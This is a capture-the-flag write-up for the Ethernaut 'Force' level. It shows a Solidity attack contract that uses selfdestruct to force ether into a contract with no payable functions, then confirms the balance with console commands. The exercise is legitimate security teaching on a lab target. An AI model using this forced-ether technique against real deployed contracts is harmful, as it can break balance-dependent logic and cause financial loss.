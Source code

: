 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel7.svg">

## Look Over Target Contract

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

Challenge's message.

> Some contracts will simply not take your money ¯\_(ツ)_/¯
The goal of this level is to make the balance of the contract greater than zero.

Our aim should be send ether to target contract to solve this challenge.

## Subverting

My attack contract.

```solidity
pragma solidity ^0.8.0;

contract Attack{

    address payable target;

    constructor(address payable _target){
        target = _target;
    }

    function attack()public payable{
        selfdestruct(target);
    }
}
```

In the starting point, identify the contart address which is our target. Afterwards, send ether to target contract with ```selfdestruct()``` method. With help of selfdestruct, contracts can be deleted from the blockchain and selfdestruct **sends all remaining ether stored in the contract** to a designated address. For this reason,
a malicious contract can use **selfdestruct** to force sending Ether to any contract.

Learn target contract's address.

```shell
await instance
'0x2C5eB5feC2C02C4bAba25DfD9e9E9092967Bde51'
```
Deploy and call attack function.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Force/img/deploy.png">

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Force/img/transaction.png">


Check instance's balance. Solved the challenge.

```shell
await getBalance(instance)
'0.00000000000000010'
```

**_by wasny0ps_**
